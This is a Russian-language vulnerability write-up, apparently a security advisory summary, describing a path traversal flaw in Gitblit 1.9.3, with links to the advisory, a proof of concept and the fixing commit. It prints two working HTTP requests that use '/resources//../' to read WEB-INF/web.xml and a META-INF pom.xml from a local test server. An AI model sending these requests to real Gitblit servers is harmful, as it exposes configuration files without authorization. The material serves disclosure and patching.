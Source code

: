 # Обзор #

## Описание уязвимости на github asvisory: ##
https://github.com/advisories/GHSA-2c65-rq62-fqhq

## Описание уязвимости: ##
Уязвимость Path Traversal в Gitblit 1.9.3 может привести к чтению файлов веб-сайта через /resources//../ (например, с указанием пути WEB-INF или META-INF).

## Метод, приводящий к уязвимости ##
java.lang.String.encode

## Репозиторий проекта с уязвимостью: ##
https://github.com/gitblit-org/gitblit

## PoC: ##
https://github.com/metaStor/Vuls/blob/main/gitblit/gitblit%20V1.9.3%20path%20traversal/gitblit%20V1.9.3%20path%20traversal.md

~~~
GET /resources//../WEB-INF/web.xml HTTP/1.1
Host: 127.0.0.1:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=1arfn8db09ors1a3p1837sgxmh; Gitblit=a9d7b582ef204ffbd9cc2ff18f01d603c069fbeb
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
~~~
![1](gitblit.png)

~~~
GET /resources//../META-INF/maven/com.gitblit/gitblit/pom.xml HTTP/1.1
Host: 127.0.0.1:8083
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: JSESSIONID=1arfn8db09ors1a3p1837sgxmh; Gitblit=a9d7b582ef204ffbd9cc2ff18f01d603c069fbeb
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
~~~
![2](gitblit2.png)

## Коммиты, исправившие уязвимость: ##
https://github.com/gitblit-org/gitblit/commit/f1b150b8f3860e9116ecc7a5290e8296ca4fdcb5
